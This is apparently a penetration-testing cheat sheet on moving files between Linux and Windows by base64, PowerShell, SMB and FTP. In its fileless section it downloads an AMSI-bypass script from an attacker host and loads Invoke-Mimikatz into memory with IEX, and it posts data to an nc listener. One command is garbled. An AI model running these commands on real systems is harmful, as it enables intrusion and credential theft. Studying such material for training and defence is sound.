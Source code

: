 ## PowerShell
### Copying Using Base64 From from Linux to Windows

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Copying Using Base64 From from Windows to Linux

```bash
PS C:\users\public\downloads> [Convert]::ToBase64String((Get-Content -path "C:\users\public\hello.py" -Encoding byte))
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

Verify MD5 hash:

```bash
PS C:\users\public\downloads> Get-FileHash "C:\users\public\hello.py" -Algorithm MD5 | select Hash

Hash
----
01C0A257EDD3C2E95C25D80A4C18C5CC
```

On Linux system:

```bash
echo 'cHJpbnQoImhlbGxvIHdvcmxkISIp' | base64 -d > hello.py
```

Verify hash:

```bash
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

Using Invoke-WebRequest is a slower method, this can launch IE when first launched:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

To prevent IE from loading use the following:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1/PowerView.ps1 -UseBasicParsing {| IEX}
```

When SSL/TLS certificate are not trusted (not tested):

```bash
PS C:\users\public\downloads> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Web Uploads

Create a uploads webserver:

```bash
gareth@gareth:~/test$ pip3 install uploadserver
gareth@gareth:~/test$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Upload file from Windows:

```bash
PS C:\Users\Public\Downloads> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\Users\Public\Downloads> Invoke-FileUpload -Uri http://192.168.0.51:8000/upload -File C:\users\public\downloads\hello.py

[+] File Uploaded:  C:\users\public\downloads\hello.py
[+] FileHash:  01C0A257EDD3C2E95C25D80A4C18C5CC
```

### Web Uploads Using Base64

```powershell-session
PS C:\Users\Public\Downloads> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\users\public\downloads\hello.py' -Encoding Byte))
```

Create a NC listener:

```bash
gareth@gareth:~/test$ sudo nc -lvp 8000
```

Send Base64 encoded file:

```
PS C:\Users\Public\Downloads> Invoke-WebRequest -Uri http://192.168.0.51/ -Method POST -Body $b64
```

Results:

```bash
gareth@gareth:~/test$ sudo nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 192.168.0.75 1979
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.19041.4894
Content-Type: application/x-www-form-urlencoded
Host: 192.168.0.51
Content-Length: 28
Connection: Keep-Alive

cHJpbnQoImhlbGxvIHdvcmxkISIp
```
## SMB

Create SMB server:

```bash
gareth@gareth:~/test$ sudo smbserver.py share /tmp -smb2support 
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copying to Windows:

```bash
c:\Users\Public\Downloads>copy \\192.168.0.51\share\hello.py
        1 file(s) copied.
```

Using a username and password:

```bash
c:\Users\Public\Downloads> net use x: \\192.168.220.133\share /user:garffff password
c:\Users\Public\Downloads> copy x:\hello.py
```

## FTP

Create FTP server:

```bash
garffff@garffff:~/test$ sudo pip3 install pyftpdlib
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21
[I 2024-09-29 14:49:52] concurrency model: async
[I 2024-09-29 14:49:52] masquerade (NAT) address: None
[I 2024-09-29 14:49:52] passive ports: None
[I 2024-09-29 14:49:52] >>> starting FTP server on 0.0.0.0:21, pid=47842 <<<
```

Copy file:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('ftp://192.168.0.51/hello.py', 'C:\Users\Public\downloads\hello.py')
```

### FTP - Upload

Create writable FTP server

```bash
gareth@gareth:~/test$ sudo python3 -m pyftpdlib --port 21 --write
[sudo] password for gareth:            
/usr/local/lib/python3.10/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2024-09-29 15:06:15] concurrency model: async
[I 2024-09-29 15:06:15] masquerade (NAT) address: None
[I 2024-09-29 15:06:15] passive ports: None
[I 2024-09-29 15:06:15] >>> starting FTP server on 0.0.0.0:21, pid=52705 <<<
```

Upload file from Windows:

```bash
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.0.51/hello.py', 'c:\users\public\downloads\hello.py')
```
